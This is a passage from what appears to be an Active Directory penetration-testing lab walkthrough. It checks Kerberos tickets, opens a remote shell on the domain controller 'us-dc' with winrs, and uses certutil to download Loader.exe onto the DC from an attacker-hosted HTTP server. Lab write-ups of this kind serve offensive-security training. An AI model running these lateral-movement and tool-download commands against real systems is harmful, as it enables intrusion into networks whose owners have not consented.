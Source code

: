 ```
klist
```

![picture 46](images/e906e7ee57b3ae97bccedacab6910ccc85c0c18c8ac4f32198c48f53da92331f.png)  


<br/>

Try to access the DC `us-dc`:

```
winrs -r:us-dc.us.techcorp.local cmd.exe
```

![picture 47](images/04bfd0b6753874b2152e217b3e2bae430c991ceb4d976e222e0be81c977bb048.png)  

<br/>

On the RDP machine, serve tools using `python SimpleHTTPServer`.

Download `Loader.exe` on the DC:

```
cd C:\Users\Public && certutil -urlcache -f http://192.168.100.64/Loader.exe .\Loader.exe
```

<br/>
